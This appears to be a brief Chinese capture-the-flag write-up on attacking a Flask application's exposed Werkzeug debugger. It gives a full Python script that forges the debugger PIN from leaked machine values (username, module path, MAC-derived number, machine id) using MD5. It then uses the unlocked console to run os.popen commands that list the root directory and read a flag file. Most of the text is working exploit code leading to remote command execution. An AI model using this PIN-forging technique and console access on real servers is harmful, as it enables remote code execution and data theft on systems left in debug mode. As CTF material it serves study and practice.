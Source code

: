 计算PIN码，python3.6以下是MD5加密，以上是sha1加密

```python
#MD5
import hashlib
from itertools import chain
probably_public_bits = [
    'root',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/site-packages/flask/app.py'# getattr(mod, '__file__', None),
]

private_bits = [
    '2485376914036',
    'c31eea55a29431535ff01de94bdcf5cfea163ddc9c2c8c79c224e150fab1df832278879c09689e3e6df72197f54ee9f4'
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
   h.update(b'pinsalt')
   num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
   for group_size in 5, 4, 3:
       if len(num) % group_size == 0:
          rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                      for x in range(0, len(num), group_size))
          break
       else:
          rv = num

print(rv)
```

进入控制台

```
import os
os.popen('ls /').read()
os.popen('cat /flaggggg').read()
```

得到flag
